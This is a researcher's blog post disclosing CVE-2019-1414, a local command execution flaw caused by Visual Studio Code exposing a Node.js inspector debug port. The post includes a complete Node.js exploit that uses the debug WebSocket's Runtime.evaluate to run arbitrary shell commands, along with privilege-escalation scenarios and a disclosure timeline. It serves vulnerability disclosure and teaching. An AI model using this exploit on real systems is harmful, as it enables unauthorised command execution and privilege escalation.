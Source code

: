 ```yaml
---
layout: default
---
```


_**Nov 4, 2019**_

## CVE-2019-1414 — a Local Command Execution in Visual Studio Code

A couple of months ago I discovered by looking at the running processes of my VM that [Visual Studio Code](https://code.visualstudio.com/) was enabling by default the [Node.js debug port](https://nodejs.org/en/docs/guides/debugging-getting-started/). Let's analyze the security impact and the process followed to exploit the issue and achieve Command Execution in the context of the running Visual Studio Code instance.

<script id="asciicast-PeDRogrDXQLbVb0A7hbLiXlNk" src="https://asciinema.org/a/PeDRogrDXQLbVb0A7hbLiXlNk.js" async></script>

## Debugging Node.js

Before my career shift into security, I was working as Full Stack JavaScript Developer. As result, I was spending a lot of time writing Node.js code to build Web APIs and data processing scripts. When you have to debug a Node.js, it's very handy to reuse the Chrome DevTools that we all know and love, since it lets to set breakpoints and it has code evaluation and interactive inspection with sourcemaps support! To enable developers to natively use the Chrome DevTools, they migrated from the legacy debug protocol to the newer [Inspector protocol](https://v8.dev/docs/inspector), that is based on the [WebSocket protocol](https://tools.ietf.org/html/rfc6455). When a Node.js instance is launched with the `--inspect` command line option, it exposes by default a debug port on `127.0.0.1:9229`. This debug port enables full access to the underline Node.js instance, including the ability to run arbitrary JavaScript code. It's also possibile to define a custom TCP port using the `--inspect=12345` option. We can connect to the port using Chrome by opening the URL `chrome://inspect` or programmatically by writing some code.

## Discovery

By looking _by chance_ at the running processes in my VM, I noticed that Visual Studio Code was normally started with the `--inspect=RANDOM_PORT` option, using a random TCP port at every execution.

![discovery](../assets/images/cve-2019-1414-discovery.jpg "Discovery")

A local attacker can exploit this port to execute arbitrary JavaScript code within the underline Node.js instance, ultimately achieving command execution on the system in the context of the Visual Studio Code instance. This can be used for horizontal and vertical lateral movements, including the following scenarios:

1. if Visual Studio code runs as Administrator, we can elevate our privileges to the highest level, i.e. `NT AUTHORITY\SYSTEM`
2. if Visual Studio Code runs as another user, we can achieve command execution as that user
3. if Visual Studio Code runs in High Integrity context, we can bypass any UAC setting and elevate from Low/Medium levels

## Exploitation

There are two main limitations to the exploitability, that are:

1. the debug port binds to `127.0.0.1`
2. a random TCP port is used every execution

Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a [DNS Rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the Same Origin Policy.

To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a `HTTP GET` request to `/json` URL and then connect to it using the WebSocket protocol.

![websocket](../assets/images/cve-2019-1414-websocket.jpg "WebSocketLink")

I wrote a [simple Node.js script](https://github.com/phra/inspector-exploiter) to execute arbitrary commands by connecting to the debug port.

```javascript
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die(reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
  die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64(data) {
  return Buffer.from(data).toString('base64')
}

async function getWsLink() {
  const res = await fetch(`http://${IP}:${PORT}/json`)
  const data = await res.json()
  return data[0].webSocketDebuggerUrl
}

async function main() {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
  const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
  const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 4,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onclose = (event) => {
    if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```

Here you can see it in action:

![exploit](../assets/images/cve-2019-1414-exploit.jpg "Exploit")

## Responsible Disclosure

The issue was promptly reported to Microsoft by following a Responsible Disclosure approach.

![msrc](../assets/images/cve-2019-1414-msrc.jpg "MSRC")

The vulnerability was also [indipendently discovered](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944) by [Tavis Ormandy](https://twitter.com/taviso) of [Google Project Zero](https://googleprojectzero.blogspot.com/).

[CVE-2019-1414](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-1414) was assigned to the reported issue.

## Timeline

- 31/08/2019: Issue reported to MSRC
- 03/09/2019: Issue acknowledged (case #53814)
- 11/10/2019: Google Project Zero public disclosure
- 17/10/2019: CVE-2019-1414 Advisory released

[back](../)

